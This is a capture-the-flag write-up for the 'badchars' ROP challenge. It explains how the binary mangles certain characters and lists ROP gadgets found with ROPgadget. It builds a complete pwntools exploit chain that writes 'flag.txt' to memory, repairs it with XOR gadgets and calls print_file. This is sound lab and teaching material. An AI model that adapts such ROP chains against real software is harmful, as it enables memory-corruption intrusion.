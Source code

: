 This is a Quick Writeup on **Badchars** challenge

## For x86_64 

Reversing pwnme function in libc,

![pwnme](./img/badchars/pwnme64.png)

we can clearly see that its replacing these chars ['x','a','.','g'] with *0xeb* in our payload .
if it changed our address in payload it will little hard but we will tackle it after creating first payload . now first we have to think how are we are going to make safe "flag.txt" transfer to print_file.
that function will definitely going to change our payload but we are not going to stop by that , we will some ROP gadget which will help to repair again the "flag.txt" .
Lets the hunt begin.
by viewing ROPgadgets with this command:

```shell
ROPgadget --binary ./badchars | grep "ret" |less
```

I found this gadgets:

```shell
0x00000000004004ee : ret (for movaps issue)
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
0x0000000000400630 : sub byte ptr [r15], r14b ; ret
0x000000000040062c : add byte ptr [r15], r14b ; ret
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a3 : pop rdi ; ret
```
that xor ,sub,add,mov gadgets are already provided in useful gadget function for this challenge. or we can also simply see that we have there pop gadgets and value write or change gadgets so they are definitly going to useful in this task.
we need **ret** for just movaps issue.
we can use xor or add or sub to change the destroyed "flag.txt" which is now **"fl\xeb\xeb\xebt\xebt"** , r14 byte will change r15 particular byte depends on what location we give.
I am going to use Xor for this.

```python
>>>print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'
```
We need a location to store our flag.txt .quick vmmap view:

![vmmap](./img/badchars/vmmap64.png)

I have chosen writing to place 0x601070.
now we have all things ready lets build the rop chain.
ropchain = 'a'*40 (usual from prev chals)
ropchain +=  ret (I am not going explain this)
ropchain +=  popr12,r13,r14,r15 (this will set reg's for our upcoming 2 gadgets mov & xor)
ropchain += 'flag.txt',0x601070(our qute location),\x8a,0x601070+2(location of "a" in flag.txt)
after that we similarly xor other bytes also , then push our location to rdi as print file needs it before calling fopen (see fucking function)
then vala call the printfile.

Here's the Exploit:
```python
# 0x00000000004004ee : ret (for movaps issue)
# 0x0000000000400628 : xor byte ptr [r15], r14b ; ret
# 0x0000000000400630 : sub byte ptr [r15], r14b ; ret
# 0x000000000040062c : add byte ptr [r15], r14b ; ret
# 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
# 0x00000000004006a0 : pop r14 ; pop r15 ; ret
# 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004006a3 : pop rdi ; ret
# bad chars x a . t

writto =0x601070
ret = p64(0x4004ee)
xory = p64(0x400628)
suby = p64(0x400630)
addy = p64(0x40062c)
mov = p64(0x400634)
r14r15 = p64(0x4006a0)
r12345 = p64(0x40069c)
rdi = p64(0x4006a3)
printf = p64(0x000400510)

badc = ['x','a','.','g']
for i in badc:
    print(f"{hex(ord(i))=}")
    
# >>> print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
# b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'

payload = flat(
    b"n"*40,
    ret,
    r12345,
    b'flag.txt',
    p64(writto),
    p64(0x8a),
    p64(writto+2),
    mov,
    xory,
    r14r15,
    p64(0x8c),
    p64(writto+3),
    xory,
    r14r15,
    p64(0xc5),
    p64(writto+4),
    xory,
    r14r15,
    p64(0x93),
    p64(writto+6),
    xory,
    rdi,
    p64(writto),
    printf,
)
io.sendline(payload)
```

Valar Morghulis!!
